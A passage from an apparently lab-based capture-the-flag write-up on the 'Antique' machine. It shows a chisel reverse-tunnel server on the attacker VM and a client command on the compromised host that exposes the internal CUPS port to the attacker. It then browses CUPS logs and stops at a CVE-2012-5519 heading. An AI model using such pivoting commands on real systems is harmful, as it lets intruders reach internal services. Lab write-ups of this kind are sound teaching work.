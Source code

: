 On my host, I’ll run the same binary as the server:

```

oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 9000 --reverse
2022/05/02 13:29:45 server: Reverse tunnelling enabled
2022/05/02 13:29:45 server: Fingerprint nAhajozV41EjYejrhftqY6829U+uzLWqa/ESPyvCIFM=
2022/05/02 13:29:45 server: Listening on http://0.0.0.0:9000

```

`-p 9000` sets that as the port to listen on (any port will do, but the default is 8080, which Burp is already using on my host), and `--reverse` allows for reverse tunnels, so that a client can open a listening port on my VM.

Now I’ll connect to it from Antique:

```

lp@antique:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
lp@antique:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:9000 R:9631:localhost:631                                              
<x_amd64 client 10.10.14.6:9000 R:9631:localhost:631
2022/05/02 13:30:16 client: Connecting to ws://10.10.14.6:9000
2022/05/02 13:30:17 client: Connected (Latency 90.506923ms)

```

This tells `chisel` to connect to my VM on 9000, and to create a listening on my VM on 9631 (I can’t use ports under 1024 because I didn’t run the server as root). Any traffic that hits that listening port will be forwarded by `chisel` to Antique and then send to port 631 on Antique from Antique.

On my host, pointing Firefox at `localhost:9631` loads the page.

#### Page

The page is a CUPS page:

![image-20220502093143737](https://0xdfimages.gitlab.io/img/image-20220502093143737.png)

[CUPS](http://www.cups.org/) is an open-source printing system.

The “Administration” tab shows the printers that are connected (none), as well as jobs, classes, and other bits of administrative information.

![image-20220502100304702](https://0xdfimages.gitlab.io/img/image-20220502100304702.png)

The “Server” section has links to show various logs. If I try to edit and save the configuration file, it pops asking for auth, which I don’t have.

In the error log, I can see the request I made earlier:

![image-20220502100408767](https://0xdfimages.gitlab.io/img/image-20220502100408767.png)

### CVE-2012-5519

#### Background

